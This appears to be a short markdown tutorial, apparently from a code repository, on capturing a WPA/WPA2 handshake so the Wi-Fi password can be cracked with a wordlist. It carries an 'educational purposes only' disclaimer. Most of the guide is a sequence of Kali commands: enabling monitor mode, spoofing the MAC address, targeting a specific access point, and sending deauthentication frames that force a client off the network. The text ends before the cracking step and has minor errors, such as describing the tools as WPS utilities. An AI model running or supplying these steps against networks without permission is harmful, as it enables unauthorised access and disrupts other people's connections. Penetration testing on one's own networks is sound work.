 # WPA/WPA2 Handshake Capture Guide

This guide outlines hows to capture a WPA/WPA2 handshake in order to attempt to crack the pre-shared key using a wordlist.

##This guide is for educational purposes only. Unauthorized access to networks is illegal and unethical. Use only on networks you own or have explicit permission to test.

## Tools
- Kali Linux
- External wireless adapter
* airmon-ng - Enables monitor mode for adapter
* airodump-ng - Scans WPS-enabled access points
* aireplay-ng - Tools for WPS Pin

  ## Check for adapter
    Sudo iwconfig

  ## Enable adapter if disabled.

  ## Bring Down network in adapter
    Sudo ifconfig wlan0 down

  ## Terminate running processes
    Sudo airmon-ng check kill

  ## Turn monitor mode for adapter
    Sudo airmon-ng start wlan0

  ## Spoof MAC address
    Sudo macchanger -r wlan0

  ## Determine which networks 5GHz or 2GHz to test
    Sudo airodump-ng --band a wlan0

  ## Target a network
    Sudo airodump-ng --bssid (Targeted Network MAC) --channel (Targeted Network Channel) --write (txt file, optional) wlan0

  ## Devices talking to network should be listed.

  ## using seperate command target a device, to shut down, in order for it ping for a handshake with network during restart.
    Sudo aireplay-ng --deauth 4 -a (Target Network MAC) -c(Target Device MAC) wlan0
  
